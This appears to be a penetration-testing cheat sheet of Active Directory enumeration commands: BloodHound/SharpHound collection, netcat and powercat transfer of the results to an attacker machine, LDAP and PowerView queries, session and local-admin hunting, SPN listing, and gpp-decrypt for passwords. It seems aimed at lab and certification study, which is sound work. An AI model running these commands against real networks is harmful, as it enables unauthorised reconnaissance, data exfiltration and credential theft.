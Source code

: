 ## Active Directory

### Automatic Enumeration

To make use of Bloodhound to enumerate an AD from the current user context run:
```powershell
Import-Module .\Sharphound.ps1
```
```powershell
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\stephanie\Desktop\ -OutputPrefix "domain-audit"
```
Get the file back to Kali with Powercat:
```bash
nc -nlvp 4444 > bloodhound.zip
```
```powershell
Import-Module .\powercat.ps1
```
```powershell
powercat -c 192.168.45.xx -p 4444 -i bloodhound.zip
```
The resulting ZIP can be analysed in Neo4J (default creds `neo4j:neo4j`):
```bash
sudo neo4j start
```
Then start Bloodhound locally, login with our Neo4J creds, and upload the zip we generated on the Windows machine:
```bash
bloodhound
```
One neat custom query to pop into Neo4J to see which users have a session on which machines:
```
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

### Manual Enumeration

Login as a user on a domain:
```bash
xfreerdp /u:ggilligan12 /d:vulnerable.corp /v:192.168.12.34
```
Get users on the domain:
```cmd
net user /domain
```
Enumerate particular domain user:
```cmd
net user ggilligan12 /domain
```
Enumerate groups on the domain:
```cmd
net group /domain
```
Enumerate particular domain group:
```cmd
net group "uberPwnage" /domain
```
Get domain info via Powershell:
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```
Get the primary domain controller (PDC):
```powershell
$PDC = $domainObj.PdcRoleOwner.Name
```
Get LDAP path formatted domain:
```powershell
([adsi]'').distinguishedName
```
Combine the above and `FindAll()` to get every directory in the AD:
```powershell
$PDC = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"
$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.FindAll()
```

Extending this further still, the following will enumerate all users in the domain:
```powershell
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domainObj.PdcRoleOwner.Name
$DN = ([adsi]'').distinguishedName 
$LDAP = "LDAP://$PDC/$DN"
$direntry = New-Object System.DirectoryServices.DirectoryEntry($LDAP)
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher($direntry)
$dirsearcher.filter="samAccountType=805306368" # for users (or 268435456 for groups)
$result = $dirsearcher.FindAll()
Foreach($obj in $result)
{
    Foreach($prop in $obj.Properties)
    {
        $prop
    }
    Write-Host "-------------------------------"
}
```

For a cleaner set of cmdlets to query the AD with we can import `PowerView`:
```powershell
Import-Module .\PowerView.ps1
```
For basic info about the domain:
```powershell
Get-NetDomain
```
For basic info about users:
```powershell
Get-NetUser
```
and for just the names of users:
```powershell
Get-NetUser | select cn
```
Intuitively enough, for groups:
```powershell
Get-NetGroup
```
For machines, guess what?
```powershell
Get-NetComputer
```
Find which (if any) machines the current user context has local admin on:
```powershell
Find-LocalAdminAccess
```
Find users logged into machines (nb. dubiously reliable):
```powershell
Get-NetSession -ComputerName <machine name> -Verbose
```
Should that fail an alternative that plies a different approach:
```powershell
.\PsLoggedon.exe \\<machine name>
```
Enumerate SPNs (services and the service accounts they are uniquely affiliated with):
```powershell
setspn -L <service name>
```
Or equally valid if we have PowerView to hand:
```powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
Get a users ACEs:
```powershell
Get-ObjectAcl -Identity <user of interest>
```
Decode SIDs:
```powershell
Convert-SidToName <security identifier of interest>
```
How're we gonna find Domain Shares? All together now:
```powershell
Find-DomainShare
```
Decrypt a password found embedded in a policy XML:
```powershell
gpp-decrypt "<encrypted password>"
```
